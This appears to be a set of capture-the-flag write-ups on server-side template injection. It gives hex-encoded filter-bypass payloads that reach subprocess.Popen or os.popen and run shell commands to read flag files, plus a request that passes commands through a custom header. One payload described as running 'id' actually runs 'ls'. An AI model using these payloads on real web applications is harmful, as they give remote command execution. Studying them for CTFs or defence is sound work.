 - ## Imaginary ctf 2021(Build-a-website):
  Problem: Web page had an input box for html code. Entering {{7*7}} reurns 49. Thus it is prone too ssti
  Initial payload: ```{{ ()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')() }}```
  This was interesting, the filer in the script didnt allow use of class, base or global so the attr was used instead and hexadecimal notations of class,
  base and subclasses was used which makes the payload in ascii:
  ```{{__class__.__base__.__subclasses__}}``` <br>
  The empty tuple () in the expression serves as an object from which we can start chaining attribute lookups <br>
  the | operator is used to chain these filters together, applying each one in sequence to transform the value step by step. <br>

  This gives a list of all the modules. Index of ```<class 'subprocess.Popen'>``` at 360.

  Final payload: ```{{()|attr('__\x63\x6c\x61\x73\x73__')|attr('__\x62\x61\x73\x65__')|attr('__\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73__')()|attr('__getitem__')(360)("cat flag.txt",shell=True,stdout=-1)|attr('communicate')()}}```

- ## Imaginary ctf 2021(Sinking calculator): 
![image](https://github.com/poorvi1910/Web/assets/146640913/f78f996d-601d-45c4-a6dc-35fb80e43e82)
In this code, the input length is limited to 80 chars and output is only printed if it has numbers or minus.
Payload: ```calc?query=config.class.init.globals[%27os%27].popen(%27od%20-b%20-An%20fla*%27).read()``` <br>
translates to ```config.class.init.globals['os'].popen('od -b -An fla*').read()```. The command ```od -b -An fla*``` is used to display file contents in octal format, without displaying the filename (-An)
  - od: This is the "octal dump" command, which is used to display file contents in different formats (octal, hexadecimal, decimal, ASCII, etc.).
  - b: This option tells od to display the output in octal bytes. Each byte in the file(s) will be displayed as a three-digit octal number.
  - An: This option tells od to suppress the default output of file offsets. Normally, od prefixes each line of output with the byte offset of that line within the file. -An removes these offsets from the output.
  - fla*: This is a shell glob pattern. It matches any files in the current directory whose names start with "fla". For example, it could match files like "flag.txt", "flag1.txt", etc.<br>
The ouput gives a string of numbers which when converted from octal to ascii gives the flag.

- ## DarkCON CTF 2021(DMM):

The following payload will return all subclasses.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}```

The following payload will return the output of the id command.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(407)('ls',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('strip')()}}```

```
<div style = "text-align:center">
<h1>Oops! b&#39;app.py\nflag.txt\nrequirements.txt&#39; is 404 Not Found.</h1>
</div>
```
Listing the directory content with the following payload.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(407)('ls',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('strip')()}}```
```
<div style = "text-align:center">
<h1>Oops! b&#39;app.py\nflag.txt\nrequirements.txt&#39; is 404 Not Found.</h1>
</div>
```
And printing flag.txt file.

```{{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(407)('cat flag.txt',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('strip')()}}```
```
<div style = "text-align:center">
<h1>Oops! b&#39;darkCON{w0ww_y0u_ar3_sUp3er_h4ckeR_ggwpp_!!}&#39; is 404 Not Found.</h1>
</div>
```

- ## (Unkown ctf)
  This chall required a payload with '' blacklisted
  Payload: ``` {{url_for.__globals__.os.popen(request.headers.hack).read()}}```
  It was required to supply the executable commands in the request header named ‘hack’. To achieve this, intercept the form’s POST request using Burp 
  Suite and modify the parameters accordingly.
```
GET /{{url_for.__globals__.os.popen(request.headers.hack).read()}} HTTP/1.1
hack: cat ../flag.txt
Host: chal.pctf.competitivecyber.club:5555
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://chal.pctf.competitivecyber.club:5555/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

